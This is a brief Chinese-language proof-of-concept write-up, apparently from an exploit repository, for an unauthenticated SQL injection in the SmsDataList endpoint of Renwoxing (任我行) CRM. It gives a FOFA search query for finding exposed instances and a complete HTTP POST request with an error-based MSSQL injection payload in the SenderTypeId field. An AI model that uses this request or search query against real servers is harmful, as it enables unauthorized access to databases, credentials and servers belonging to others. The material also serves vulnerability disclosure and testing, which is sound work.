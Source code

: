 # 任我行CRM系统SQL注入漏洞

## 1.漏洞描述

任我行 CRM SmsDataList 接口处存在SQL注入漏洞，未经身份认证的攻击者可通过该漏洞获取数据库敏感信息及凭证，最终可能导致服务器失陷。

## 2.搜索语法

```plain
fofa："欢迎使用任我行CRM"
```

## 3.漏洞复现

```plain
POST /SMS/SmsDataList/?pageIndex=1&pageSize=30 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/57.0.1361.63 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 170

Keywords=&StartSendDate=2024-06-17&EndSendDate=2024-06-17&SenderTypeId=0000000000'and 1=convert(int,(sys.fn_sqlvarbasetostr(HASHBYTES('MD5','123456')))) AND 'CvNI'='CvNI
```

![image](https://github.com/hardog123/poc-exp/assets/170905460/407ac7b7-9865-4759-9390-a614a6927d1c)
